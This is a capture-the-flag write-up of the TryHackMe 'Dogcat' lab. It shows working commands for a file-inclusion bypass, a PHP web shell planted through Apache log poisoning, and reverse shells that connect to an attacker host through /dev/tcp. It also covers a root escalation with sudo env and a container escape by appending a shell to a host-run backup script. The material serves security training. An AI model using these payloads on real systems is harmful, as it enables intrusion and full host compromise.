

# Dogcat

<table>
<tr><td><strong>Platform</strong></td><td>TryHackMe</td></tr>
<tr><td><strong>Difficulty</strong></td><td>Medium</td></tr>
<tr><td><strong>URL</strong></td><td><a href="https://tryhackme.com/room/dogcat">https://tryhackme.com/room/dogcat</a></td></tr>
<tr><td><strong>Focus</strong></td><td>LFI via an unsanitized `view` parameter escalates to RCE through Apache access log poisoning, followed by GTFOBins sudo privilege escalation and a container escape via a shared bind-mounted cron script</td></tr>
</table>

---

## Port Scan `[RECON]`

```bash
nmap -sS -sC -sV -O -Pn -p 22,80 <TARGET_IP> -oN nmap.txt

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
```

Two open ports: SSH (unused throughout the room) and an Apache/PHP web application, the primary attack surface.

---

## Directory Enumeration `[ENUMERATION]`

```bash
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirb/common.txt -x html,php,txt,js,json,bak,old,zip -b 400,403,404

cat.php   (Status: 200) [Size: 26]
cats      (Status: 301) [--> /cats/]
flag.php  (Status: 200) [Size: 0]
index.php (Status: 200) [Size: 418]
dog.php   (Status: 200) [Size: 26]
dogs      (Status: 301) [--> /dogs/]
```

`index.php` accepts a `view` parameter, the entry point for the rest of the chain.

---

## Local File Inclusion via `view` Parameter `[EXPLOITATION]`

```bash
curl "http://<TARGET_IP>/?view=php://filter/convert.base64-encode/resource=dogs/../../../../var/www/html/index"
```

```php
<?php
    function containsStr($str, $substr) {
        return strpos($str, $substr) !== false;
    }
    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
    if(isset($_GET['view'])) {
        if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
            echo 'Here you go!';
            include $_GET['view'] . $ext;
        } else {
            echo 'Sorry, only dogs or cats are allowed.';
        }
    }
?>
```

`containsStr()` only requires `dog` or `cat` to appear anywhere in `view`, satisfied by `dog/../../../../etc/passwd`. The `.php` suffix appended by `include` is controlled by the `ext` GET parameter — passing it empty removes the suffix, enabling inclusion of arbitrary non-PHP files.

```bash
curl "http://<TARGET_IP>/?view=dog/../../../../etc/passwd&ext="
```

Direct read of `/etc/passwd`, confirming the extension bypass.

```bash
curl "http://<TARGET_IP>/?view=php://filter/convert.base64-encode/resource=dogs/../../../../var/www/html/flag"

REDACTED
```

First flag retrieved via the same LFI, before any code execution is achieved.

---

## Remote Code Execution via Access Log Poisoning `[EXPLOITATION]`

Apache reflects the `User-Agent` header verbatim into `access.log` (plaintext). Including that log through the LFI executes its content as PHP.

```bash
curl "http://<TARGET_IP>/?view=dog/../../../../var/log/apache2/access.log&ext=" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
```

```bash
curl "http://<TARGET_IP>/?view=dog/../../../../var/log/apache2/access.log&ext=&cmd=whoami"

www-data
```

Command execution confirmed as `www-data`. A second flag is retrieved at this point from `/var/www/flag2_QMW7JvaY2LvK.txt`: `REDACTED`.

> **Note:** the payload must use single quotes (`$_GET['cmd']`) only — double quotes inside the `User-Agent` field are escaped by Apache in its own quoted log format and break the injected PHP syntax.

---

## Reverse Shell Delivery `[EXPLOITATION]`

```bash
cat > pwned.sh << 'EOF'
#!/bin/bash
sh -i >& /dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT> 0>&1
EOF
chmod +x pwned.sh
python3 -m http.server <ATTACKER_PORT>
```

`wget` is not available inside the container; `curl` is.

```bash
curl "http://<TARGET_IP>/?view=dog/../../../../var/log/apache2/access.log&ext=&cmd=curl%20http://<ATTACKER_IP>:<ATTACKER_PORT>/pwned.sh%20-o%20/tmp/pwned.sh"

<TARGET_IP> - - [...] "GET /pwned.sh HTTP/1.1" 200 -
```

```bash
curl "http://<TARGET_IP>/?view=dog/../../../../var/log/apache2/access.log&ext=&cmd=chmod%20%2Bx%20/tmp/pwned.sh"
```

```bash
nc -lvnp <ATTACKER_PORT>
```

```bash
curl "http://<TARGET_IP>/?view=dog/../../../../var/log/apache2/access.log&ext=&cmd=bash%20/tmp/pwned.sh"

connect to [<ATTACKER_IP>] from (UNKNOWN) [<TARGET_IP>] 34462
```

Shell obtained as `www-data`. Python is not available in the container, so `pty.spawn` does not apply; `script -qc /bin/bash /dev/null` provides an interactive TTY instead.

---

## Sudo Privilege Escalation `[PRIVESC]`

```bash
sudo -l

(root) NOPASSWD: /usr/bin/env
```

```bash
sudo env /bin/sh

# id
uid=0(root) gid=0(root) groups=0(root)
```

`env` with no restrictions on `sudo` launches any program inheriting root privileges — a standard GTFOBins entry for `sudo`. Root access inside the container. Third flag retrieved from `/root/flag3.txt`: `REDACTED`.

---

## Container Detection `[PRIVESC]`

```bash
ls -la /

.dockerenv
```

Presence of `.dockerenv` confirms a Docker container. `df -h` and `/proc/mounts` show a shared device bind-mounted at `/opt/backups`, `/var/www/html`, and individually at `/etc/hostname`, `/etc/hosts`, `/etc/resolv.conf` — characteristic of how Docker injects container configuration.

---

## Container Escape via Shared Bind Mount `[PRIVESC]`

```bash
cat /opt/backups/backup.sh

#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

The script runs on the host with root privileges (`-rwxr--r-- root root`). Since UID 0 inside the container maps to UID 0 on the host without user namespace remapping, the container has effective write access to this host-owned file.

```bash
cat > /opt/backups/backup.sh << 'EOF'
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
nohup setsid bash -c 'sh -i >& /dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT> 0>&1' >/dev/null 2>&1 &
EOF
chmod +x /opt/backups/backup.sh
```

The original task is preserved and a reverse shell appended. `nohup`/`setsid` detach the new process from `backup.sh` so it survives after the script exits.

```bash
nc -lvnp <ATTACKER_PORT>

connect to [<ATTACKER_IP>] from (UNKNOWN) [<TARGET_IP>] 36286
root@dogcat:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Root shell on the host (hostname `dogcat`, not a Docker-assigned hash, and `python3` available — unlike the minimalist container), confirming the escape. Fourth flag retrieved from `/root/flag4.txt`: `REDACTED`.

> **Note:** existence and frequency of the host-side trigger were not verified beforehand — there was no access to the host crontab from inside the container. The script's own content (a periodic-looking backup task) and the pre-existing timestamp on `backup.tar` were the only indirect evidence; confirmation came only after the payload fired.

---

## Attack Chain



---

## Key Concepts

**Extension bypass in a forced `include`**

When an LFI concatenates a fixed extension (`.php`) onto the vulnerable parameter, checking whether that extension depends on another controllable parameter (here, `ext`) can neutralize it, allowing arbitrary files to be read — not only files interpretable as PHP.

**Log poisoning and quoting inside an already-quoted field**

When the poisoning target (here, `access.log`) wraps the reflected field in double quotes as part of its own format, a literal double quote in the payload gets escaped on write and breaks the injected PHP syntax once included. Using only single quotes in the payload avoids the issue entirely.

**Shared bind mount as a container escape vector**

A file or directory shared between host and container via `--bind` is not a copy — both sides see the same content at the kernel level. If a host process (here, a periodic trigger) executes that file with privileges, and the container has write access to it (through UID mapping with no remapping), arbitrary code can be injected to run with the host process's privileges.

---

## Lessons Learned

- When a host-side automated trigger (cron or similar) cannot be verified directly due to lack of access to its configuration, indirect evidence (script content, output file timestamps) combined with after-the-fact confirmation (leaving a listener open after planting the payload) is a valid strategy.
- Detaching a spawned process from the script that launched it (`nohup`/`setsid` + backgrounding) is relevant whenever a payload is triggered by a short-lived script rather than an interactive shell, ensuring it survives after that script exits.
